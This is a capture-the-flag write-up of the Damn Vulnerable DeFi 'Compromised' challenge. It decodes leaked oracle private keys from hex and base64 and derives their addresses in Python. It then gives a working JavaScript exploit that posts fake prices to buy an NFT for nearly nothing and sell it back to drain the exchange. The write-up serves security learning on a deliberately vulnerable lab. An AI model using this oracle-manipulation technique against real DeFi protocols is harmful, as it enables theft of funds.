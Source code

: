 # [Compromised](https://www.damnvulnerabledefi.xyz/challenges/7.html)

## Analysis

Challenge snippet seems to contain hex characters:

```txt
4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35 

4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34  
```

Which seem to be base64...

```sh
$ echo -n "4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35" | xxd -r -p | base64 -d

0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9

$ echo -n "4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34" | xxd -r -p | base64 -d

0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48
```

### Theories

- These may be x,y coordinates of a public key.

   ```
   0x04c678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48
   ```
   Prefix of 0x04 because Ethereum uses uncompressed public keys:

   Resource: https://www.oreilly.com/library/view/mastering-ethereum/9781491971932/ch04.html

   - Computing an address Keccak-256(publickey) omitting the 0x04 prefix

   ```
   02440a7ee8a39494dddaced5b0a415e392e62702a4e3a275602f392f82be285f
   ```
   Suffix 20bytes

   ```
   0xb0a415e392e62702a4e3a275602f392f82be285f
   ```

   A public key is useless since it is "public"

-  These could be  private keys: https://consensys.github.io/smart-contract-best-practices/attacks/oracle-manipulation/#centralized-oracles-and-trust.

    Private keys are 32bytes in length.

    Need to compute the matching public key and hence address to see which oracle(s) were compromised.

    ```py
    import ecdsa, codecs
    # pycryptodome
    from Crypto.Hash import keccak

    >>> unknown_data1 = "c678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9"
    >>> unknown_data2 = "208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48"
    >>> def getPublicKeyFromPrivateECDSA(privkey_hex):
    ...    privkey_as_bytes = codecs.decode(privkey_hex, 'hex')
    ...    pubkey_as_signing = ecdsa.SigningKey.from_string(privkey_as_bytes, curve=ecdsa.SECP256k1).verifying_key
    ...    pubkey_as_bytes = pubkey_as_signing.to_string()
    ...    pubkey_hex = codecs.encode(pubkey_as_bytes, 'hex')
    ...    return pubkey_hex
    ...
    >>> getPublicKeyFromPrivateECDSA(unknown_data1)
    b'5c1b119edd97e67393409f959f810ccbf82690c7d86f88a8cf5b748011400b6c9cc17f448703c3ee30a5d0dedc1b078519ad14221f57aa517d671812d00159fd'
    >>> getPublicKeyFromPrivateECDSA(unknown_data2)
    b'555945b73af0ba039e1ab1b9f02f2840573364318219f14436dbd5f753cd8ba33cb1ecb4ec13ccb42258e845318f3905777a4be2ee8b7d979b3685b90fc51ed4'
    >>> import keccak
    >>> def getAddrFromPubKey(pubkey_hex):
    ...     pubkey_as_bytes = codecs.decode(pubkey_hex, 'hex')
    ...     keccak_hash = keccak.new(digest_bits=256)
    ...     keccak_hash.update(pubkey_as_bytes)
    ...     keccak_digest = keccak_hash.hexdigest()
    ...     return '0x'+ keccak_digest[-40:]
    ...
    >>> getAddrFromPubKey(pubkey_1)
    '0xe92401a4d3af5e446d93d11eec806b1462b39d15'
    >>> getAddrFromPubKey(pubkey_2)
    '0x81a5d6e50c214044be44ca0cb057fe119097850c'
    ```

    These addresses match the address of the sources!

    Turns out you can do these computations with library functions from web3.js or ethers.js but I preferred learning the crypto involved.

- `Exchange.sol`

    Allows a user with sufficient balance to buy the DVNFT token and allows a user to buy the token if the Exchange has enough funds.

    The price is determined by median computation from the provided oracles

    A user can sell a token TO the Exchange using the `sellOne` routine, the Exchange pays the user the `currentPriceInWei`

    A user can buy a token FROM the Exchange using the `buyOne` routine, the user pays the exchange `currentPriceInWei`

- `TrustfulOracleInitializer.sol`

    initializes the oracles with initial prices by invoking `setupInitialPrices`

- `TrustfulOracle.sol`

    Assigns some useful roles like `TRUSTED_SOURCE_ROLE` for the on-chain sources and `INITIALIZER_ROLE` for the initializer contract. The latter role is useful once after which it is stripped.

    Trusted sources can set new price for the token using the `postPrice` routine

Money leaves the exchange when `sellOne` is invoked. An idea is to manipulate the oracle price. Buy it cheaper, sell it very expensive. Reset the price.

## Problem

Leaked private keys of oracles can be used to manipulate the exchange by manipulating prices reported by the oracles


## Exploit

- compromised.challengee.js
```js
...
    it('Exploit', async function () {        
        /** CODE YOUR EXPLOIT HERE */
        // initialize source wallets from private keys
        var source2_private_key = "0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9";

        var source3_private_key = "0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48";

        var source2_wallet = new ethers.Wallet(source2_private_key, ethers.provider);

        var source3_wallet = new ethers.Wallet(source3_private_key, ethers.provider);

        // manipulate the Oracles make it cost too little
        await this.oracle.connect(source2_wallet).postPrice(this.nftToken.symbol(), ethers.utils.parseEther('0.0'));
        await this.oracle.connect(source3_wallet).postPrice(this.nftToken.symbol(), ethers.utils.parseEther('0.0'));

        // Attacker is too broke, give it 2ETH
        await source2_wallet.sendTransaction({
            to: attacker.address,
            value: utils.parseEther("1.0")
        });
        await source3_wallet.sendTransaction({
            to: attacker.address,
            value: utils.parseEther("1.0")
        });

        // BuyOne as attacker
        const options = {value: ethers.utils.parseEther("0.1")};
        var tx = await this.exchange.connect(attacker).buyOne(options);
        var receipt = await tx.wait()
        //var tokenId, by, price;
        for (const event of receipt.events) {
            if (event.event == "TokenBought"){
                var {by,tokenId,price} = event.args;
            }
          }


        // manipulate the Oracles make it cost everything
        // including what was paid to buyone
        await this.oracle.connect(source2_wallet).postPrice(this.nftToken.symbol(), ethers.utils.parseEther('9990'));
        await this.oracle.connect(source3_wallet).postPrice(this.nftToken.symbol(), ethers.utils.parseEther('9990'));

        // SellOne as attacker
        await this.nftToken.connect(attacker).approve(this.exchange.address, tokenId);
        var tx = await this.exchange.connect(attacker).sellOne(tokenId);

        // manipulate the Oracles make it original everything
        await this.oracle.connect(source2_wallet).postPrice(this.nftToken.symbol(), ethers.utils.parseEther('999'));
        await this.oracle.connect(source3_wallet).postPrice(this.nftToken.symbol(), ethers.utils.parseEther('999'));

    });
...
```

## Explanation

1. Attacker needs to afford one tokens with <=0.1 ETH.
2. Attacker needs to sell the token to the exchange for 9990 ETH.
3. Attacker uses compromised accounts to get more ETH.
3. Attacker manipulates the prices by using the compromised source accounts to postPrice such that the calculated median token cost is favourable to the attacker e.g 0 to buy and 9990 to sell
4. The attacker resets the price in the end.